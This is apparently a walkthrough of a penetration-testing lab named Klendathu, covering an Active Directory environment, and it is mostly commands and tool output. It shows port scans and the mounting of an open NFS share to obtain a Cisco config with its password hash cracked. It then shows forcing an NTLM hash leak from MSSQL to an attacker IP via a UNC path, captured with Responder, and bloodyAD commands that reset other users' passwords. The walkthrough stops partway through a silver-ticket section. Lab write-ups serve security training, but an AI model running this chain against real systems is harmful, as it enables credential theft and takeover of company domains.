



## INTRODUCTION

```
You are tasked with performing a penetration test on Klendathu, involving a mixed Active Directory environment.

Klendathu is a small Active Directory scenario that involves typical vulnerabilities found in real world company environments.

Klendathu is designed for penetration testers and red teamers in search of a quick and challenging lab.

This Red Team Operator I lab will expose players to:

    Enumeration
    Active Directory enumeration and attacks
    Mixed Kerberos Stacks
    Lateral movement
    Local privilege escalation
    Situational awareness

```


```
Nmap scan report for 10.13.38.35 (10.13.38.35)

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

Nmap scan report for 10.13.38.36 (10.13.38.36)

PORT     STATE SERVICE
1/tcp    open  ms-sql-s
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

Nmap scan report for 10.13.38.37 (10.13.38.37)

PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
2049/tcp open  nfs

└─# nxc smb 10.13.38.35-37
SMB         10.13.38.35     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False) 
SMB         10.13.38.36     445    SRV1             [*] Windows Server 2022 Build 20348 x64 (name:SRV1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False) 
```


## RECON

```
└─# showmount -e 10.13.38.37                      
Export list for 10.13.38.37:
/mnt/nfs_shares *

└─# mount -t nfs 10.13.38.37:/mnt/nfs_shares mount_ 


Found :: Switch344_running-config.cfg

enable secret 5 $1$j61qxI/P$dPYII5uCu83j8/FIuT2Wb/
enable password C1sc0
snmp-server community public RO 
snmp-server contact ZIM@KLENDATHU.VL


cracked password :: football22
```


We get domain User --> zim :: football22 





Lets enumerate , cause enumeration is the key to pwn....


```
bloodhound-python --domain KLENDATHU.VL --domain-controller DC1.KLENDATHU.VL --nameserver 10.13.38.35 --username zim --password 'football22' --collectionmethod all --dns-tcp --zip
```


Not good report from the hound ; lets enumerate mssql if we can get some hunt to move further....

```
impacket-mssqlclient KLENDATHU.VL/zim:football22@10.13.38.36 -windows-auth
```


## FORGING SILVER TICKET

Steal NTLM HASH :: 

```
SELECT * FROM sys.dm_os_file_exists('\\10.10.14.17\re\con');

We get hash on responder and cracking it ;

RASCZAK :: starship99
```





Now in order to forge the silver ticket we need to know , nthash of service account , domain-sid / computer-sid ; and impacket-ticketer....




This guy got Generic Write access aka ForceChangePassword of Rico and Ibanez.

```
bloodyAD --host 10.13.38.35 -d klendathu.vl -u rasczak -p starship99 set password rico starship99             
[+] Password changed successfully!


bloodyAD --host 10.13.38.35 -d klendathu.vl -u rasczak -p starship99 set password ibanez starship99
[+] Password changed successfully!
```


